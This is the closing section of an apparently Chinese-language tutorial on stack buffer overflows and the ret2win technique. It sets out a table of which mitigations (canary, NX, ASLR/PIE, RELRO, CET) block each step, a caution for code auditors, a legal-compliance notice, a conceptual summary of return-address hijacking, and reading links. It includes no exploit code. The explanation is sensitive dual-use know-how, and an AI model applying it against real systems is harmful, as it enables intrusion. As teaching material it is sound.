本篇为了讲清楚原理，示例二进制关闭了 canary 与 PIE、依赖 NX 天然不介入的跳转目标。现实世界的生产构建默认会同时开启多项防护，下表列出它们分别拦截本篇技术链条上的哪一步，详细原理留给对应章节：

| 防护机制 | 对本篇"裸奔 ret2win"手法的影响 | 深入讨论 |
| --- | --- | --- |
| Stack Canary | 溢出触及 canary 值即被 `__stack_chk_fail` 检测并中止进程，必须先设法泄露或绕过 | 第14篇 |
| NX / DEP | 对本篇手法本身没有影响（全程未在栈上执行代码）；但决定第3篇 shellcode 注入路线是否可行 | 第3、4篇 |
| ASLR / PIE | 目标函数地址不再固定，需要信息泄露或其它定位手段才能算出真实地址 | 第15篇 |
| RELRO | 与本篇覆盖返回地址的手法无直接关系，主要约束的是 GOT 表的可写性 | 第16篇 |
| CFI / Intel CET / Shadow Stack | 从硬件或编译器层面为"函数返回该去哪"建立独立于栈内容的校验通道，直接针对本篇描述的攻击模式 | [[34.现代二进制防护机制/00.现代二进制防护机制总览\|系列34]] |

### 防御者的盲区提醒

一个容易被忽视的细节是：canary 保护的范围有明确边界，它只能检测"溢出是否已经推进到 canary 所在的偏移"，对 canary 本身位置以下（缓冲区与 canary 之间，或更准确地说是被编译器判定为"非危险"因而没有被重排到缓冲区旁边的其它标量局部变量）不提供任何保证——这正是前文"变量覆盖"子技巧仍然可能绕开 canary 的原因。代码审计时不能因为看到二进制"开了 canary"就认为所有栈上局部变量都安全，还需要具体检查是否存在"溢出一个数组能否波及同帧内其它逻辑控制变量"这类模式。

> [!caution] 合规边界
> 本篇涉及的所有技术、命令与示例代码，仅用于帮助读者理解栈缓冲区溢出与控制流劫持的**原理**，前提是在**自己拥有或已获明确授权的环境**（本地虚拟机/容器、CTF 靶场、经授权的安全研究场景）中学习与验证。文中的教学二进制均为自行编译、专门放置了一个"后门函数"的最小示例，不针对任何真实生产系统、第三方服务或他人资产，也不构成、不提供针对现实目标的可直接武器化的利用步骤；商业软件的授权/许可保护机制同样不在本系列讨论或规避范围内。请在法律与授权范围内使用本文内容，未经授权对他人系统进行渗透测试或漏洞利用属于违法行为。

## 小结

本篇把"栈溢出"从最底层的机械原理讲到了一个可运行的最小利用。核心心智模型可以浓缩成三句话：栈是一段向低地址增长的 LIFO 内存，`call`/`ret` 依赖"栈顶就是合法返回地址"这一未经硬件验证的约定；不受长度约束的写入一旦从缓冲区起始处向高地址推进得足够远，就会依次踏过 saved RBP 与返回地址；`ret` 执行的那一刻，CPU 毫无保留地信任栈顶的 8 字节并把它送入 RIP，这就是 RIP 劫持。本篇的示例始终停在"跳向一个已知、已经可执行的地址"这一最简单的形态（ret2win 模式）：不需要在栈上放置并执行任何新代码，因此不受 NX 影响；不需要设置任何寄存器参数，因此不需要 gadget；不需要绕过任何地址随机化，因此不需要信息泄露。这个"最小形态"恰恰是理解后续每一篇的公共基础——第3篇要解决的是"如果没有现成的后门函数，能不能自己注入一段可执行代码"；第4、5篇要解决的是"如果目标进程真的开了 NX，还能跳到哪里执行已有代码"；第6、7篇要解决的是"如果需要在跳转后精确控制多个寄存器、多次调用，怎么用短小的代码片段拼出一条链"；第14、15篇要解决的是"如果目标进程真的开了 canary/ASLR，第一步该怎么绕过"。从这个角度看，第3篇到第15篇几乎都可以理解为"同一个 RIP 劫持原语，在不同约束下瞄准不同目标、需要不同前置条件"的变奏——本篇讲的正是这套变奏共用的那一段主题旋律。

## 相关阅读

- 防护对偶：[[34.现代二进制防护机制/00.现代二进制防护机制总览|现代二进制防护机制总览]] —— 本篇利用建立在 Canary/NX/ASLR/PIE 全部关闭的"裸奔"环境上，这些防护具体拦截本篇哪一步、原理如何，见该系列总览及分篇。
- 底层前置：[[22.调用规约/06.SystemV_AMD64调用规约|System V AMD64 调用规约]] —— 本篇栈帧布局、参数寄存器、栈对齐（`call` 前 16 字节对齐）要求均以此规约为准，是理解"为什么 x64 覆盖返回地址传不了参数"的权威依据。
- 底层前置：[[11.ELF文件详解/17.got节|ELF 的 GOT 节]] —— 控制流劫持不止返回地址一种落点，改写 GOT 表项是另一条路径，本系列第16篇（GOT劫持与ret2dlresolve）会在此基础上展开。
- 内核延伸：[[52.Linux内核机制与内核利用/00.Linux内核机制与内核利用总览|Linux内核机制与内核利用总览]] —— 栈溢出与 RIP/PC 劫持这一原语在内核态同样存在，只是目标换成了内核栈与特权寄存器，约束条件（SMEP/KASLR 等）也完全不同。
- 堆内部（横向对比）：[[24.内存管理与堆分配器/06.ptmalloc2的chunk结构|ptmalloc2 的 chunk 结构]] —— 同属内存破坏范畴，但目标数据结构（chunk 元数据而非返回地址）、完整性校验方式与利用范式与栈溢出显著不同，适合对照阅读体会"同一漏洞大类、不同实现细节"的差异。
- Aleph One, *Smashing the Stack for Fun and Profit*, Phrack Magazine, Vol.7 Iss.49（1996）—— 系统化提出栈溢出利用技术的奠基性文章，至今仍是理解本篇技术源流的一手材料。
- Intel® 64 and IA-32 Architectures Software Developer's Manual, Volume 1, §6 "Procedure Calls, Interrupts, and Exceptions" —— `CALL`/`RET`/`PUSH`/`POP` 指令栈行为的权威指令级定义。
- System V Application Binary Interface — AMD64 Architecture Processor Supplement（x86-64 psABI）—— 栈对齐、red zone、参数传递规则的标准文本。
- CWE-121: Stack-based Buffer Overflow —— MITRE CWE 漏洞分类条目，本篇讨论的漏洞类型的标准化定义与索引。

[[00.二进制漏洞与利用基础总览|⬆ 系列总览]] | [[01.内存破坏漏洞全景与利用链模型|← 上一章]] | [[03.shellcode编写与ret2shellcode|→ 下一章]]
